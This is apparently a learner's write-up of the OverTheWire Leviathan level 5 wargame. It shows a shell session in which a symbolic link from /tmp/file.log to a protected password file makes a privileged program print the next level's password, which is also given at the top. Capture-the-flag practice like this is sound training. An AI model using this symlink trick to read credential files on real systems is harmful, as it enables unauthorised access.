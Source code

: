 # Leviathan Level 5 -> 6

**Password:** YZ55XPVk2l

## Solution


So I tried running the given program and it told that it cant find the tmp/file.log. Next step I thought since it currently doesnt exist what if I just create that file with random text in it, in case the program doesnt actually validate the info within that file. So I created that file in a given path and ran the program again and it seems it just prints thats inside the file and deletes the file.log. So I was stuck for a while on this level and spent some time googling what I can do. So apparently since ./leviathan5 is being run through leviathan6 privileges, would it be possible to use the given program linked to the etc/leviathan_pass/ directory to read the contents of the password? Turns out we can actually do something like by using symbolic links, which I remember from the OS course I took when were going over the linux file structure and how they can be used as either a shortcut or read the files. So by creating a symbolic link between the path where the password is located with the tmp/file.log, if we run the leviathan5 program it should read the contents of the password file the same way it was just reading the contents ofthe file.log. To be honest to this I’m not sure how symbolic links work in linux, I should try reading more about this and that can definetely be an area of vulnerabitlity hackers typically exploit. 

leviathan5@gibson:~$ ls
leviathan5
leviathan5@gibson:~$ cat /tmp/file.log
cat: /tmp/file.log: No such file or directory
leviathan5@gibson:~$ ./leviathan5 
Cannot find /tmp/file.log
leviathan5@gibson:~$ touch /tmp/file.log ; echo "hello" > /tmp/file.log
leviathan5@gibson:~$ ./leviathan5 
hello
leviathan5@gibson:~$ touch /tmp/file.log ; echo "hello" > /tmp/file.log
leviathan5@gibson:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
ln: failed to create symbolic link '/tmp/file.log': File exists
leviathan5@gibson:~$ ls
leviathan5
leviathan5@gibson:~$ ./leviathan5 
Cannot find /tmp/file.log
leviathan5@gibson:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@gibson:~$ ./leviathan5 
YZ55XPVk2l

